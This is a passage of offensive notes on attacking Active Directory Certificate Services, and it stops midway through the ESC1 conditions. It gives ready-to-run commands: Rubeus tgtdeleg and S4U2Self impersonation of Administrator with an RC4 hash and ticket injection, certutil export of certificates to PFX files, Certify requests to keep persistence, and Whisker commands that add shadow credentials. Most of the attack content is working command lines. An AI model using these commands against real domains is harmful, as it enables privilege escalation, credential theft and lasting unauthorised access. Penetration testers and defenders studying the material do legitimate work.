 
> Below is a sample command abusing CertPotato to privilege escalate from virtual accounts to administrative privileges using the S4U2Self Attack.

**Perform tgtdeleg Attack to Get a TGT**
```powershell
Rubeus.exe tgtdeleg /nowrap
```

**Perform S4U2Self Attack to Gain CIFS Admin Access**
```powershell
Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs/web.corp /dc:dc.corp /user:'web$' /rc4:B2FCBA1C3570AB9418994799B9BC985A /ptt
```



> It is possible to list and export certificates from the Windows Certstore using built-in tools like CertUtil, built-in PowerShell Cmdlets, and external tools like CertStealer and CertifyKit. 

## CertUtil

**List Certificates in Computer Store**
```powershell
certutil -store My
```

**Export PFX Certificate Using Serial from Computer Store**
```powershell
certutil -p 'Passw0rd!' -exportpfx 3000000009ab1d2a9f13756439000000000009 C:\windows\temp\user.pfx
```


**An example command to request a certificate to maintain user persistence using Certify is as follows**:
```powershell
Certify.exe request /ca:ca.corp\CA /template:User /user:user
```

**A sample command to add this misconfiguration using Whisker is as follows**:
```powershell
Whisker.exe add /target:target$ /domain:domain.corp /dc:dc.corp /path:'C:\certs\web_shadow.pfx' /password:'Passw0rd!'
```




# Escalating Domain Privileges 

## ESC1

We can escalate to higher domain privileges using ESC1 when the following conditions are present on a template:

1. **Key Usage Extensions**:
   - **Smart Card Logon**: OID `1.3.6.1.4.1.311.20.2.2`
   - **PKINIT Authentication**: OID `1.3.6.1.5.2.3.4`
   - **Client Authentication**: OID `1.3.6.1.5.5.7.3.2` 
     - This EKU is enabled for Active Directory Authentication.
